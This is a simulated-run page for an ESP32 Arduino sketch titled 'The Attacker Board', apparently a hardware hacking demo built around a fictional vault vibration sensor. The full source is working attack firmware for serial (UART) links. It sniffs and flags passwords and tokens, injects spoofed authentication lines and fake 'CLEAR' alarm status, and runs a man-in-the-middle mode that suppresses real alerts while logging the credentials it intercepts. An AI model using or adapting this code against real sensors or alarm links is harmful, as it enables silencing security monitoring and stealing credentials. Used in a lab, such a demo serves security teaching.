
Simulated run of this sketch. Board: ESP32. Shown: output pins drawn as LEDs (lit = HIGH). Inputs (shaded band) come from the test bench; at power-on: GPIO 0 (BOOT_BUTTON) HIGH. What the sketch prints to the serial monitor is not drawn.

Above: at 2.4 s.
2.5 s: GPIO 0 (BOOT_BUTTON) pulled LOW for 0.15 s
At 5.0 s:

5.6 s: GPIO 0 (BOOT_BUTTON) pulled LOW for 1 s
17.6 s: GPIO 0 (BOOT_BUTTON) pulsed LOW 5 times (0.12 s each, 0.3 s apart)
Timing chart, 0 to 23.0 s (numbered marks = the images above; inputs shaded):


Measured:
- by itself, GPIO 2 (LED_PIN): repeats every 3.0 s: 2 × (HIGH 0.20 s, LOW 0.50 s), HIGH 0.20 s, LOW 1.4 s

The sketch:

attacker.ino
```cpp
/*
 * attacker.ino — "The Attacker Board" (Blue Case)
 *
 * Multi-mode attacker firmware. Press the BOOT button to cycle
 * through three attack modes. The onboard LED blinks to indicate
 * the current mode:
 *
 *   Mode 1 — SNIFF:  one flash every 3 seconds
 *   Mode 2 — INJECT: two flashes every 3 seconds
 *   Mode 3 — MITM:   three flashes every 3 seconds
 *
 * SNIFF wiring:
 *   White GPIO 17 (TX) → Blue GPIO 16 (RX)
 *   Shared GND
 *
 * INJECT wiring:
 *   Blue GPIO 17 (TX) → White GPIO 16 (RX)
 *   Shared GND
 *
 * MITM wiring:
 *   White GPIO 17 (TX) → Blue GPIO 4 (UART1 RX)
 *   Blue GPIO 17 (TX)  → White GPIO 16 (RX)
 *   Shared GND
 *
 * No external libraries required.
 */

#define BOOT_BUTTON    0      // GPIO 0 = BOOT button on most DevKitC boards
#define LED_PIN        2      // GPIO 2 = onboard blue LED
#define UART2_TX       17
#define UART2_RX       16
#define MITM_RX_PIN    4      // UART1 RX for MITM mode
#define BAUD_RATE      9600

HardwareSerial MitmUART(1);   // UART1 for MITM receive

// Modes
enum Mode { SNIFF = 1, INJECT = 2, MITM_MODE = 3 };
Mode currentMode = SNIFF;

// LED blink state
unsigned long lastBlinkCycle = 0;
const unsigned long BLINK_CYCLE = 3000;   // 3 second cycle
const unsigned long BLINK_ON = 200;       // LED on duration
const unsigned long BLINK_GAP = 500;      // gap between flashes

// Button debounce
bool lastButtonState = HIGH;
unsigned long lastDebounceTime = 0;
const unsigned long DEBOUNCE_DELAY = 300;

// Injector state
unsigned long lastAuthTime = 0;
const unsigned long AUTH_INTERVAL = 15000;
String fakeUser  = "vault_admin";
String fakePass  = "F1r$tN@t10nal#2026!";
String fakeToken = "eyJhbGciOiJIUzI1NiJ9.dmF1bHRfYWRtaW4.v4u1t_s3cr3t";

// MITM state
String fakeStatus    = "CLEAR";
int    fakeVibration = 0;
bool   stealCreds    = true;

void sendFakeAuth() {
  Serial2.println("[VAULT-SENSOR] Authenticating to security gateway...");
  delay(300);
  Serial2.println("[VAULT-SENSOR] DEVICE_ID: VAULT-7-VIBRATION-01");
  delay(200);
  Serial2.println("[VAULT-SENSOR] USER: " + fakeUser);
  delay(200);
  Serial2.println("[VAULT-SENSOR] PASS: " + fakePass);
  delay(200);
  Serial2.println("[VAULT-SENSOR] AUTH_TOKEN: " + fakeToken);
  delay(300);
  Serial2.println("[VAULT-SENSOR] Session established. Monitoring vault...");
  Serial2.println();
}

void printBanner() {
  Serial.println();
  Serial.println("===================================");
  Serial.println("  ATTACKER BOARD v1.0");
  Serial.println("===================================");
  Serial.println();
  Serial.println("Press BOOT button to cycle modes:");
  Serial.println("  Mode 1 (1 blink): SNIFF");
  Serial.println("  Mode 2 (2 blinks): INJECT");
  Serial.println("  Mode 3 (3 blinks): MITM");
  Serial.println();
}

void printModeChange() {
  Serial.println();
  Serial.println("-----------------------------------");
  switch (currentMode) {
    case SNIFF:
      Serial.println("  MODE: SNIFF (1 blink)");
      Serial.println("  Wire: White TX (GPIO 17) → Blue RX (GPIO 16)");
      Serial.println("  Listening for UART data...");
      break;
    case INJECT:
      Serial.println("  MODE: INJECT (2 blinks)");
      Serial.println("  Wire: Blue TX (GPIO 17) → White RX (GPIO 16)");
      Serial.println("  Sending fake CLEAR status...");
      break;
    case MITM_MODE:
      Serial.println("  MODE: MITM (3 blinks)");
      Serial.println("  Wire: White TX → Blue GPIO 4, Blue TX → White RX");
      Serial.println("  Intercepting and suppressing alerts...");
      break;
  }
  Serial.println("-----------------------------------");
  Serial.println();
}

bool isSensitive(String &line) {
  return (line.indexOf("PASS") >= 0 ||
          line.indexOf("TOKEN") >= 0 ||
          line.indexOf("USER") >= 0 ||
          line.indexOf("AUTH") >= 0 ||
          line.indexOf("DEVICE_ID") >= 0);
}

// ============================================================
// LED BLINK PATTERN
// ============================================================

void updateLED() {
  unsigned long elapsed = millis() - lastBlinkCycle;

  if (elapsed >= BLINK_CYCLE) {
    lastBlinkCycle = millis();
    elapsed = 0;
  }

  int numBlinks = (int)currentMode;
  bool ledOn = false;

  for (int i = 0; i < numBlinks; i++) {
    unsigned long blinkStart = i * (BLINK_ON + BLINK_GAP);
    if (elapsed >= blinkStart && elapsed < blinkStart + BLINK_ON) {
      ledOn = true;
      break;
    }
  }

  digitalWrite(LED_PIN, ledOn ? HIGH : LOW);
}

// ============================================================
// BUTTON HANDLING
// ============================================================

void checkButton() {
  bool reading = digitalRead(BOOT_BUTTON);

  if (reading == LOW && lastButtonState == HIGH) {
    if (millis() - lastDebounceTime > DEBOUNCE_DELAY) {
      lastDebounceTime = millis();

      // Cycle mode
      if (currentMode == SNIFF) currentMode = INJECT;
      else if (currentMode == INJECT) currentMode = MITM_MODE;
      else currentMode = SNIFF;

      lastAuthTime = 0;  // Reset auth timer on mode change
      printModeChange();
    }
  }

  lastButtonState = reading;
}

// ============================================================
// MODE FUNCTIONS
// ============================================================

void runSniff() {
  if (Serial2.available()) {
    String captured = Serial2.readStringUntil('\n');
    captured.trim();

    if (captured.length() > 0) {
      float elapsed = millis() / 1000.0;

      if (isSensitive(captured)) {
        Serial.print("[");
        Serial.print(elapsed, 1);
        Serial.print("s] *** CAPTURED: ");
        Serial.print(captured);
        Serial.println(" ***");
      } else {
        Serial.print("[");
        Serial.print(elapsed, 1);
        Serial.print("s] ");
        Serial.println(captured);
      }
    }
  }
}

void runInject() {
  // Periodic fake auth
  if (millis() - lastAuthTime >= AUTH_INTERVAL) {
    if (lastAuthTime > 0) {
      Serial2.println();
      Serial2.println("[VAULT-SENSOR] Session expired. Re-authenticating...");
      delay(500);
    }
    sendFakeAuth();
    lastAuthTime = millis();
    Serial.println("[HEIST] Sent spoofed auth sequence");
  }

  // Send fake CLEAR
  String msg = "VAULT_STATUS:CLEAR VIBRATION:0 EVENTS:0";
  Serial2.println(msg);
  Serial.println("[HEIST] Sent: " + msg + "  (drill is running)");
  delay(2000);
}

unsigned long lastMitmClear = 0;

void runMITM() {
  // Continuously send CLEAR every 100ms to keep the override active
  if (millis() - lastMitmClear >= 100) {
    String suppressed = "VAULT_STATUS:" + fakeStatus +
                       " VIBRATION:" + String(fakeVibration) +
                       " EVENTS:0";
    Serial2.println(suppressed);
    lastMitmClear = millis();
  }

  // Also process any incoming data from the real sensor
  if (MitmUART.available()) {
    String incoming = MitmUART.readStringUntil('\n');
    incoming.trim();

    if (incoming.length() == 0) return;

    // Credential interception: log but forward unchanged
    if (incoming.indexOf("PASS") >= 0 || incoming.indexOf("TOKEN") >= 0 ||
        incoming.indexOf("USER") >= 0) {
      if (stealCreds) {
        Serial.println("[MITM] >>>> CREDENTIAL CAPTURED: " + incoming + " <<<<");
      }
      Serial2.println(incoming);
      return;
    }

    // Log suppressed alerts
    if (incoming.startsWith("VAULT_STATUS:")) {
      String realStatus = "UNKNOWN";
      int colonPos = incoming.indexOf(':');
      int spacePos = incoming.indexOf(' ');
      if (colonPos >= 0 && spacePos > colonPos) {
        realStatus = incoming.substring(colonPos + 1, spacePos);
      }

      if (realStatus != "CLEAR") {
        Serial.println("[MITM] SUPPRESSED: " + incoming);
      }
      return;  // Already sending CLEAR continuously above
    }

    // Pass through anything else
    Serial2.println(incoming);
    Serial.println("  FORWARDED: (unmodified)");
  }
}

// ============================================================
// SETUP & LOOP
// ============================================================

void setup() {
  Serial.begin(115200);

  // UART2 for sniff (RX) and inject/MITM (TX)
  Serial2.begin(BAUD_RATE, SERIAL_8N1, UART2_RX, UART2_TX);

  // UART1 for MITM receive (RX only)
  MitmUART.begin(BAUD_RATE, SERIAL_8N1, MITM_RX_PIN, -1);

  pinMode(BOOT_BUTTON, INPUT_PULLUP);
  pinMode(LED_PIN, OUTPUT);
  digitalWrite(LED_PIN, LOW);

  // LED startup test: 3 rapid blinks to confirm LED works
  for (int i = 0; i < 3; i++) {
    digitalWrite(LED_PIN, HIGH);
    delay(200);
    digitalWrite(LED_PIN, LOW);
    delay(200);
  }

  printBanner();
  printModeChange();
}

void loop() {
  updateLED();
  checkButton();

  switch (currentMode) {
    case SNIFF:
      runSniff();
      break;
    case INJECT:
      runInject();
      break;
    case MITM_MODE:
      runMITM();
      break;
  }
}
```
